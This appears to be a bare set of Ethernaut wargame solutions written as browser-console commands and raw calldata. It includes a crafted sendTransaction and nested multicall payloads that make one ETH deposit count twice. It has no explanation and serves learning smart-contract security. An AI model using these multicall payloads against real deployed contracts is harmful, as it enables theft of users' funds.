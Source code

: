 # Ethernaut Solutions

await contract.sendTransaction({data:'0xa6376746000000000000000000000000e2fbb99ddb441a822b047c518d7d697eea8d5274'});

await contract.multicall(['0xd0e30db0',''],{value:1000000000000});

0xac9650d800000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000

0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000